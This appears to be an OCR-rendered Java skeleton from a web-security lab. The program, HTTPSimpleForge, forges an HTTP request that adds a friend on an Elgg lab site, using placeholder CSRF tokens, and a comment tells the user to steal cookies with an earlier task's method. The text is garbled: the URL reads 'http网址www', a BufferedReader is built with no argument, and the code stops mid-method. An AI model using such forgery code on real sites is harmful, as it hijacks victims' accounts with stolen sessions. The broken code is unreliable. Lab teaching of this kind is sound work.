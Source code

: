 
```java
import java.io.*;
import java.net.*;

public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
    try {
        int responseCode;
        InputStream responseIn=null;

        String requestDetails = "&__elgg_ts=<<correct_elgg_ts_value>>&__elgg_token=<<correct_elgg_token_value>>";

        // URL to be forged.
        URL url = new URL ("http网址www.xsslabelgg.com/action/friends/add?friend=<<friend_user_guid>>"+requestDetails);

        // URLConnection instance is created
        // to further parameterize a resource request past what the state members of URL instance can represent.
        HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
        if (urlConn instanceof HttpURLConnection) {
            urlConn.setConnectTimeout(60000);
            urlConn.setReadTimeout(90000);
        }

        // addRequestProperty method
        // to add HTTP Header Information.
        // add User-Agent HTTP header to the forged HTTP packet.
        // Add other necessary HTTP Headers yourself. Cookies should be stolen
        // using the method in task3.
        urlConn.addRequestProperty("User-agent","Sun JDK 1.6");

        //HTTP Post Data which includes the information to be sent to the server.
        String data = "name=...&guid=..";

        // DoOutput flag of URL Connection
        // should be set to true to send HTTP POST message.
        urlConn.setDoOutput(true);

        // OutputStreamWriter is used to write the HTTP POST data
        // to the url connection.
        OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
        wr.write(data);
        wr.flush();

        // HttpURLConnection a subclass of URLConnection is returned by
        // url.openConnection() since the url is an http request.
        if (urlConn instanceof HttpURLConnection) {
            HttpURLConnection httpConn = (HttpURLConnection) urlConn;
            // Contacts the web server
            // gets the status code from HTTP Response message.
            responseCode = httpConn.getResponseCode();
            System.out.println("Response Code = " + responseCode);

            // HTTP status code
            // HTTP_OK means the response was received sucessfully.
            if (responseCode == HttpURLConnection.HTTP_OK){
                // Get the input stream from url connection object.
                responseIn = urlConn.getInputStream();
                // Create an instance for BufferedReader
                // to read the response line by line.
                BufferedReader buf_inp = new BufferedReader();
```